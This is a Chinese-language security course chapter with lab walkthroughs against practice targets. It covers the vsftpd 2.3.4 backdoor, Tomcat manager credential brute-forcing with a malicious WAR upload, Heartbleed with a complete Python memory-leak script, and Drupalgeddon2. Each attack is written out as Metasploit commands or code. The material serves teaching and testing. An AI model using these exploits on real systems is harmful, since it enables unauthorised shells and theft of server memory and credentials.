

# 通用漏洞经典版

在过去的漏洞原理的课程中，我们所传递的知识体系简单可以说成是burp启动，然后有指纹与无指纹两类。

但实际上，整个可以完整运行的IT系统涉及到相当多不可控的通用组件。

在我们基础篇的整合实验中，可以得到充分的体现： 

```
操作系统：Linux、windows...
系统服务：NFS、FTP...
web中间件：apache、tomcat、weblogic...
协议：HTTPS
开发框架：ThinkPHP、struts2...
通用CMS：wordpress....
...
```

而当这些拆解后的组件出现安全问题，对于系统的安全影响是同样的。


## 1 系统服务类--vsftp234

### 1.1 漏洞简介

当进行FTP认证时，如果用户名中包含:)，那么直接就触发监听6200端口的连接的shell。

### 1.2 影响范围

vsftpd2.3.4

### 1.3 漏洞复现

使用nmap扫描探测metasploitable靶机21端口

```
nmap -sV -p 21 IP
```



而通过版本号可以看到vsftpd的版本号为2.3.4

使用msf进行复现

```
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set payload
set rhost IP
exploit
```


## 2 中间件类--tomcat

### 2.1 漏洞简介

当Tomcat提供远程管理的功能时，可以通过破解口令后部署恶意程序后，从而获取到主机shell。

### 2.2 影响范围

ALL

### 2.3 漏洞复现


使用nmap扫描探测metasploitable靶机8180端口

```
nmap -sV -p 8180 192.168.0.62
```


而通过浏览器打开后，可以看到Tomcat的管理页面。


使用msf进行口令破解

```
use auxiliary/scanner/http/tomcat_mgr_login
set rhosts 192.168.0.62
set rport 8180
set targeturi /manager/html
set threads 10
exploit
```


好吧:) 我们找到了用户名密码均为tomcat


继续使用msf获取shell

```
use exploit/multi/http/tomcat_mgr_upload
set rhosts 192.168.0.62
set rport 8180
set target /manager/html
set HttpUsername tomcat
set HttpPassword tomcat
set target 0
exploit
```


## 3 协议类--Heartbleed

### 3.1 漏洞简介

Openssl是一个安全套接字层密码库，囊括主要的密码算法、常用密钥、证书封装管理功能及实现ssl协议。http协议调用了ssl协议,那么他就变成了https。

 OpenSSL Heartbleed模块存在一个BUG，问题存在于ssl/dl_both.c文件中的心跳部分，当攻击者构造一个特殊的数据包，满足用户心跳包中无法提供足够多的数据会导致memcpy函数把SSLv3记录之后的数据直接输出，该漏洞导致攻击者可以远程读取存在漏洞版本的OpenSSL服务器内存中多达64K的数据。

此漏洞允许在正常情况下窃取受用于保护互联网的 SSL/TLS 加密保护的信息。SSL/TLS 为 Web、电子邮件、即时消息 (IM) 和一些虚拟专用网络 (VPN) 等应用程序提供 互联网上的通信安全和隐私。

### 3.2 影响范围

OpenSSL 1.0.2-beta

OpenSSL 1.0.1 - OpenSSL 1.0.1f

### 3.3 漏洞复现


使用msf检测是否存在Heartbleed漏洞

```
use auxiliary/scanner/ssl/openssl_heartbleed
set rhosts 192.168.0.104
set rport 8443
exploit
```


```
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code
# Minor customizations by Malik Mesellem (@MME_IT)

import sys
import struct
import socket
import time
import select
import re
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=8443, help='TCP port to test (default: 8443)')

def h2bin(x):
    return x.replace(' ', '').replace('\n', '').decode('hex')

hello = h2bin('''
16 03 02 00  dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01                                  
''')

hb = h2bin(''' 
18 03 02 00 03
01 40 00
''')

def hexdump(s):
    for b in xrange(0, len(s), 16):
        lin = [c for c in s[b : b + 16]]
        hxdat = ' '.join('%02X' % ord(c) for c in lin)
        pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
        print '  %04x: %-48s %s' % (b, hxdat, pdat)
    print

def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = ''
    remain = length
    while remain > 0:
        rtime = endtime - time.time() 
        if rtime < 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata
        

def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print 'Unexpected EOF receiving record header - server closed connection'
        return None, None, None
    typ, ver, ln = struct.unpack('>BHH', hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print 'Unexpected EOF receiving record payload - server closed connection'
        return None, None, None
    print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
    return typ, ver, pay

def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print 'No heartbeat response received, server likely not vulnerable'
            return False

        if typ == 24:
            print 'Received heartbeat response:'
            hexdump(pay)
            if len(pay) > 3:
                print 'WARNING: server returned more data than it should - server is vulnerable!'
            else:
                print 'Server processed malformed heartbeat, but did not return any extra data.'
            return True

        if typ == 21:
            print 'Received alert:'
            hexdump(pay)
            print 'Server returned error, likely not vulnerable'
            return False

def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print 'Connecting...'
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print 'Sending Client Hello...'
    sys.stdout.flush()
    s.send(hello)
    print 'Waiting for Server Hello...'
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print 'Server closed connection without sending Server Hello.'
            return
        # Look for server hello done message.
        if typ == 22 and ord(pay[0]) == 0x0E:
            break

    print 'Sending heartbeat request...'
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)

if __name__ == '__main__':
    main()

```

使用如上的脚本进行数据读取。


## 4 通用cms类--drupal

### 4.1 漏洞简介

Drupal是开源CMS之一，Drupal是CMS内容管理系统，并且在世界各地使用，受到高度赞赏，Drupal可以作为开源软件免费使用。

### 4.2 漏洞复现

访问bwapp靶机的/drupal/路径


直接使用msf进行复现：

```
msfconsole
search drupal
exploit/unix/webapp/drupal_drupalgeddon2
set rhosts 192.168.0.104
set targeturi /drupal
exploit
```


